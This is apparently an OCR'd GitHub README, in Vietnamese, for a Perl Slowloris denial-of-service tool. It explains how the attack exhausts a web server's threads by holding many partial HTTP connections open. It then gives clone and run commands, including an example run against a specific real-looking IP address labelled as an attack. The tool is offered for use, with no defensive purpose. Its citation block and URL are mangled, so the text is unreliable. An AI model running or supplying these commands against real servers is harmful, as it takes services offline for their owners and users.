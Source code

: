 # slowloris.pl
DdoS  Slowloris extremely strong
Slowloris là gì?
Slowloris về cơ bản là tấn công từ dịch vụ HTTP đến máy chủ luồng. Nó hoạt động như thế này:

Chúng tôi bắt đầu thực hiện nhiều HTTP yêu cầu.
Chúng tôi gửi các tiêu đề (mỗi ~ 15 giây) để giữ các kết nối luôn mở.
Chúng tôi không bao giờ đóng kết nối trừ khi máy chủ làm như vậy. Nếu máy chủ đóng một kết nối, chúng tôi sẽ tạo một máy chủ mới tiếp tục thực hiện tương tự.
Điều này đang thực hiện kiệt máy chủ luồng và máy chủ không thể trả lời người khác.
@article { lecuonghack er1111,
title = "Slowloris",
author = " Le Tran Van Cuong
" ,
   journal = " github.com " ,
   year = " 2022
    " ,le-cuong-hacker1111/slowloris.pl
   url = " https://github.com/
   
   git clone https://github.com/le-cuong-hacker1111/slowloris.pl
   
   cd slowloris.pl
   
   chmod  a+x slowloris.pl 
   
   use: ./slowloris.pl
   
   ./slowloris.pl -dns  103.200.23.15
   
   ex: ./slowloris.pl -dns (IP)  {will attack}
   
   Done
   Code veried
   
